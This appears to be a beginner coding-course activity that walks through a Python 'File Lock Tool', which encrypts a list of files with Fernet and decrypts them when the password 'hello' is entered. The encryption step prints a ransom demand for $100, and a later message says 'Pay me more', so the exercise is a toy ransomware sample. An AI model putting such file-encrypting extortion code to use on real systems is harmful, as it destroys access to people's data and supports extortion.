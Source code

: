 File Lock Tool
======================
In this activity, you will code to complete a tool that secures the data by encrypting file's content and then decrypts it when the correct password is entered.


<img src= "https://s3-whjr-curriculum-uploads.whjr.online/aae451a5-6bd9-4f11-839e-31d806718af1.gif" width = "auto" height = "auto">


Follow the given steps to complete this activity.


1. Open `main.py` file.
2. Ask whether user wants to encrypt or decrypt the files
    ```
    choice =  int(input("Choose an option: \n1. Encrypt \n2.Decrypt \n"))
    ```
3. If user enter **1** then run the code for encryption.
    ```
    if (choice == 1):
        # Perform the Encryption code under if block
        key = Fernet.generate_key()
        with open("encryptedKey.key", "wb") as encryptedKey:
            encryptedKey.write(key)
        for file in files:
            with open(file, "rb") as file1:
                rawData = file1.read()
            encryptedRawData = Fernet(key).encrypt(rawData)
            with open(file, "wb") as file2:
                file2.write(encryptedRawData)


        print("👹👹👹👹 All of your files has been encrypted send me $100 or I'll delete them in 24 hours!! 👹👹👹👹")
    ```


4. Check if the user opted for decryption and then perform decryption of the files.
* Check if user entered **2** i.e Opted for decryption.
  ```
  if (choice ==2):
  ```


* Set a secret password and ask the user to enter a password..
  * Set a `secretPhrase` as string "hello".
  * Ask user to enter a password and save it in as `enteredPhrase`
  ```
  secretPhrase = "hello"
  enteredPhrase = input("Enter valid phrase to decrypt the files\n")
  ```


* Notify the user on wrong password if the secret password doesn't match with the tried passwords.
  * Check if `secretPhrase` does not match with the `enteredPhrase`, then print the message to notify the user that the phrase is invalid.
  ```
  if (secretPhrase != enteredPhrase):
      print(" 👹👹👹👹 Invalid Phrase try one more time or Pay me more 👹👹👹👹 ")
  ```


* Decrypt the files if the phrases matches i.e under the `else` block.
    * Start the `else` block
    * Write `try` block under it
    * Open the `encryptedKey.key` file and store its content in `secretKey`
  ```
  else:
      try:
          with open("encryptedKey.key", "rb") as encryptedKey:
              secretKey = encryptedKey.read()
  ```
* Loop through each file in the `files` and perform following:
  * Open the file and read the raw data
  * Decrypt the raw data
  * Store the decrypted data back in the file
  ```
          for file in files:
              with open(file, "rb") as theFile:
                      rawData = theFile.read()
              decryptedRawData = Fernet(secretKey).decrypt(rawData)


              with open(file, "wb") as theFile:
                      theFile.write(decryptedRawData)
  ```


  * Notify the user about the recovery of their information.
     * Print the recovery message to the console.
     * Write except block to pass and go to next iteration if anything error occurs in the current iteration.
  ```
              print("You have successfully recovered all the files!!")
      except:
          pass
  ```


Save and run the code to check the output.
